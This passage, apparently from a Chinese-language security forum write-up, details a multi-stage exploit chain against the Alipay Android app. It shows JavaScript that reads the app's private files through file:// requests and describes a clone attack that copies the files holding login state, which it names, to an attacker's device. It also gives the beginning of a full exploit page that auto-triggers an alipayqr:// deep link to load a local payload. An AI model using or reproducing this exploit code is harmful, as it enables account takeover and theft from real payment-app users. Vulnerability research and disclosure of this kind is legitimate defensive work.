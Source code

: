 ```
}
sendGetRequest('file:///data/data/com.eg.android.AlipayGphone/shared_prefs/welcome.xml', function(response){
    alert(response);
});
</script>
```

效果如下

[![img](https://xianzhi.aliyun.com/forum/media/upload/picture/20180116220615-6a67248c-fac6-1.png)](https://xianzhi.aliyun.com/forum/media/upload/picture/20180116220615-6a67248c-fac6-1.png)

攻击阶段2达到了读取支付宝app私有文件的目的

## 0x03 攻击阶段3 - 克隆攻击

2012年黑哥就提到过克隆攻击的思路，可参考《Attack Your Android Apps By Webview》

同一用户使用账号密码登录多个设备支付宝是会被要求进行安全验证的(如选出该账号的好友、短信验证)

但是通过拷贝/data/data/com.eg.android.AlipayGphone下的文件到其他设备的方式，支付宝是不会有安全验证的

猜测支付宝在第一次运行之后就不再判断设备指纹，所以可被克隆攻击。

测试的时候通过删除文件(可以用类似二分法提高效率)的方法逐渐确定和用户登录状态相关的文件

经过一段时间的测试，发现支付宝中与用户登录状态相关的文件有如下几个

```
├── databases
│   ├── alipayclient.db
│   └── alipayclient.db-journal
├── files
│   └── SGMANAGER_DATA2
└── shared_prefs
    ├── alipay_tid_storage.xml
    └── secuitySharedDataStore.xml
```

攻击阶段3确定了与支付宝登录状态相关的文件，并读取这些文件回传到攻击者服务器上，攻击者拿到文件后将文件拷贝到攻击机上即可控制被攻击者账户

## 0x04 完整的exp

结合第一阶段、第二阶段和第三阶段的攻击，最终可构造几个exp文件如下

exp.html:

```
<iframe style="display:none" src="exp.php"></iframe>

<script src="https://cdn.bootcss.com/jquery/3.2.1/jquery.min.js"></script>

<script type="text/javascript"> 
  $(function(){
    function clicksp(){
      $("#sp").trigger("click");
    }
    setTimeout(clicksp, 500);
  });      
</script>

<a href="alipayqr://platformapi/startapp?saId=10000007&clientVersion=3.7.0.0718&qrcode=file:///sdcard/Download/exp2.html"><span id="sp"></span></a>
```
